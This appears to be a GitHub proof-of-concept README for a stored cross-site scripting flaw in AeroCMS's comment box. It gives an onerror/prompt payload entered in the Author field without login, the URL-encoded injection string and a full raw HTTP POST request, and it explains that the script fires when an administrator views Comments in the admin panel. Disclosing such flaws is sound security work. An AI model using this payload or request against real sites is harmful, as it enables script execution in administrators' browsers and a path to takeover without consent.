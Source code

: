 # AeroCMS-Comment-Stored_XSS-POC
* `Note` Don't need register or login account 
* `Description` => `Stored_XSS` at comment box
## Step to Reproduct
* Click `Read More` -> input payload `<img/src/onerror=prompt(10)>` at `Author` -> click `Submit` button 
# Exploit
* Input payload at `Author` -> click `Submit` button
![image](https://user-images.githubusercontent.com/79050415/157009053-539e0d0f-8de7-449f-9815-2059c15179ab.png)
* When admin login to admin panel and click `Comments` -> The XSS will trigger 
![image](https://user-images.githubusercontent.com/79050415/157009623-8afdecf4-8bfc-48ed-be9c-a298628eeb5f.png)
* Finally, Success !!!!
![image](https://user-images.githubusercontent.com/79050415/157009805-fc9c33bb-7ae9-4229-9051-081c23d72b92.png)
# Vulnerable Code
# POC
* `Injection Point` 
```c
comment_author=%3Cimg%2Fsrc%2Fonerror%3Dprompt%2810%29%3E&comment_email=bin%40gmail.com&comment_content=hacked&create_comment=
```
* `Request`
```c
POST /AeroCMS/post.php?p_id=36 HTTP/1.1
Host: localhost:8080
Content-Length: 126
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="95", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8080/AeroCMS/post.php?p_id=36
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=loqbt1ibs376hge1s415srq441
Connection: close

comment_author=%3Cimg%2Fsrc%2Fonerror%3Dprompt%2810%29%3E&comment_email=bin%40gmail.com&comment_content=hacked&create_comment=
```
`POC VIDEO` https://drive.google.com/file/d/1GxOyX1JkG0trfdaCLfe06TR6WLIGoUXE/view?usp=sharing
